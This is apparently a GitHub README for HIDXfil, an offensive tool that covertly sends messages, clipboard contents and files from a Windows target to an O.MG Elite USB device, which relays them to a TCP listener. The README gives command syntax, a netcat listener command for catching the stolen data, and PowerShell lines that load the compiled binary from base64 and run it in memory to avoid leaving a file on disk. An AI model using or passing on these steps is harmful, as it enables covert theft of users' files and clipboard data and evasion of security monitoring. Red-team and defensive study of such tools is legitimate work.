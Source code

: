 # HIDXfil
**HIDXfil** is a tool designed to exfiltrate data through a Human Interface Device (HID). This can be useful for scenarios where traditional network-based exfiltration methods are restricted or monitored. This tool can send messages, clipboard content, or whole files to a specified USB device using its Vendor ID (VID) and Product ID (PID). **HIDXfil** is designed to work with HIDX StealthLink, a feature for [O.MG Elite devices](https://shop.hak5.org/collections/mischief-gadgets).

![hidxfil-diagram](https://github.com/user-attachments/assets/c81d75dd-e603-4d98-b3fe-6a29398a7e3f)

## Usage
I'm not planning on releasing binaries for HIDXfil, so you will have to compile yourself :)

The Usage of the provided project is pretty much self explanatory.
After successfully compiling the project, the binary can simply be used on a Windows Target system. 
```
 _   _ _____________   __  _____ _             _ _   _       _     _       _
| | | |_   _|  _  \ \ / / /  ___| |           | | | | |     | |   (_)     | |
| |_| | | | | | | |\ V /  \ `--.| |_ ___  __ _| | |_| |__   | |    _ _ __ | | __
|  _  | | | | | | |/   \   `--. \ __/ _ \/ _` | | __| '_ \  | |   | | '_ \| |/ /
| | | |_| |_| |/ // /^\ \ /\__/ / ||  __/ (_| | | |_| | | | | |___| | | | |   <
\_| |_/\___/|___/ \/   \/ \____/ \__\___|\__,_|_|\__|_| |_| \_____/_|_| |_|_|\_\

HID-Based Exfiltration Tool by Ø1phor1³

Usage: HIDXfil.exe /message <Message> /clipboard /vid <VendorID> /pid <ProductID> /chunksize <chunksize> /file <filepath>

Parameters:
  /message:   Specify the message to exfiltrate
  /clipboard: Exfiltrate the Users clipboard content
  /file:      Specify the file path to exfiltrate
  /vid:       Specify the Vendor ID of the target device (Optional - Default:D3C0)
  /pid:       Specify the Product ID of the target device (Optional - Default:D34D)
  /chunksize: Specify the chunk size for data transfer (Optional - Default:8)

Example: HIDXfil.exe /message "Hello World" /vid D3C0 /pid D34D /chunksize 8
```
A chunksize of 8 was set to ensure the best results. Changing this value may result in missing data and corrupted files.
Generally, any TCP Listener can be used to retreive the data sent by the O.MG device. 

_Exfiltrating files is not as reliable as pure "text-based" input. Depending on size and filetype it may need multiple tries and different chunk sizes to successfully retrieve the file._

Netcat may be your first choice: `nc -lvnp <port>` / `nc -lvnp <port> > example.file`

## Running HIDXfil Through PowerShell
While there are PowerShell scripts provoding exfiltration via HIDX StealthLink, **HIDXfil.exe** may introduce more functionalities. If you do want to run it through PowerShell though, considere the following steps:

If you want to run **HIDXfil** in-memory through a PowerShell wrapper, first compile **HIDXfil** and encode the resulting binary into base64:

`$base64 = [Convert]::ToBase64String([IO.File]::ReadAllBytes("<Path to .exe>"))`

**HIDXfil** can then be loaded in a PowerShell script with the following:

`$AssemblyLoad = [System.Reflection.Assembly]::Load([Convert]::FromBase64String($base64))`

Afterwards, identify the entry point:

`$EntryPoint = $AssemblyLoad.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic')`

Executing the loaded assembly then can be achieved like this (If you do need to define multiple arguments, seperate them via `,`):

`$EntryPoint.Invoke($null, (, [string[]] ('<Argument(s)>')))`


## Disclaimer
By using the provided code, you agree to the following terms:

1.  **No Warranty**: This code is provided "as is" without warranty of any kind, express or implied. The creator does not warrant that the provided code will be error-free or will meet your requirements or expectations.
    
2.  **Use at Your Own Risk**: You are solely responsible for the use of this code. The creator is not responsible for any damage, loss, or issues that may arise from using this script, including but not limited to loss of data, system malfunctions, or security vulnerabilities.
    
3.  **Compliance with Laws**: You agree to use this script in compliance with all applicable local, state, national, and international laws and regulations. The creator is not responsible for any illegal or unauthorized use of this code.
    
4.  **No Liability**: The creator shall not be liable for any direct, indirect, incidental, special, exemplary, or consequential damages.

By using this code, you acknowledge that you have read and understood this disclaimer and agree to be bound by its terms.
